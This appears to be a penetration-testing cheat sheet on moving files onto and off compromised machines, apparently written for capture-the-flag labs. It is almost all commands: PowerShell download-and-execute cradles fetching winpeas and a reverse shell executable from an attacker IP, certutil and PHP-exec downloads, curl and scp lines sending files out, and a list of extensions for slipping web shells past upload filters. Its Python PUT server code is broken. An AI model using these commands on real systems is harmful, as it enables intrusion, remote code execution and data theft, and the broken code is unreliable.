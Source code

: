 # Linux

wget http://IP:PORT/FILE
# python 
python -m SimpleHTTPServer
python3 -m http.server

## http sever saves POST request data

```python
#!/usr/bin/python 
import SimpleHTTPServer
import BaseHTTPServer class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler): 
def do_PUT(self):
	print self.headers
	length = int(self.headers["Content-Length"]) 
	path = self.translate_path(self.path) 
	with open(path, "wb") as dst: 
	    dst.write(self.rfile.read(length)) 

    
 if __name__ == '__main__': 
	SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```




# Windows 
```powershell
Powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/winpeas.bat')"

IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/winpeas.bat')

Invoke-WebRequest -Uri 10.10.16.4/winpeas.bbat -OutFile winpeas.bat

````


## Certutil
```bash
certutil -urlcache -f http://IP/FILE OUTPUTFILENAME
```


# php
```php
<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.17.185/FILE_NAME','OUT_FILE_NAME')\""); ?>
```

```powershell
powershell Invoke-WebRequest -Uri http://10.10.16.4/winpeas.bat -OutFile winpeas.bat

powershell Invoke-WebRequest -Uri http://10.10.16.4/reverse.exe -OutFile ke.exe

```

# scp 
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:
SCP -i KEY FILE user@target:/tmp/FILE:
-i for ssh key
P - Specifies the remote host ssh port.
-p - Preserves files modification and access times.
-q - Use this option if you want to suppress the progress meter and non-error messages.
-C - This option forces scp to compresses the data as it is sent to the destination machine.
```bash
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:

scp charix@10.10.10.84:secret.zip . # getting secret.zip from charix usuer

```
# Curl
```bash
# Upload file with curl
curl DEST_IP --upload-file FILE
curl 192.77.184.2 --upload-file flag.zip
```





# FTP
python -m pyftpdlib 21
ftp 10.10.10.10
# stop service
sc stop SERVICE

sc query SERVICE to check service

sc start SERVICE to start 



```
Invoke-WebRequest -Uri http//192.168.181.128/linPEAS.ps1 -OutFile
File C:\Users\administrator\Documents\WindowsPowerShell\Modules\Recon\adPEAS.ps1
```

# Extension evasion

**File Upload General Methodology**
Other useful extensions:
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, phar .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

  Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
Coldfusion: .cfm, .cfml, .cfc, .dbm
Flash: .swf
Perl: .pl, .cgi
Erlang Yaws Web Server: .yaws




 
